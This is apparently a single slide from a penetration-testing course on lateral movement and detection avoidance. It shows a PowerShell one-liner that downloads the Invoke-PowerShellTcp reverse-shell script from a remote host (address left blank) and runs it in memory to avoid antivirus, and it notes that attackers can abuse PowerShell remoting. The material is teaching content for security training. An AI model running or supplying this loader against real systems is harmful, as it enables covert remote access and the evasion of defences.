

Understanding How to Perform Lateral Movement, Detection Avoidance, and Enumeration
Legitimate Utilities and Living-off-the-Land (Cont.)

The following PowerShell command can be used to avoid detection by security products and antivirus software:
              PS > IEX (New-Object Net.WebClient).DownloadString('http:// /Invoke-PowerShellTcp.ps1')

This command directly loads a PS1 file from the Internet instead of downloading it and then executes it on the device.

Remote management in Windows via PowerShell (often called PowerShell [PS] remoting ) is a basic feature that a system administrator can use to access and manage a system remotely.

An attacker could also take advantage of this feature to perform post-exploitation activities.
39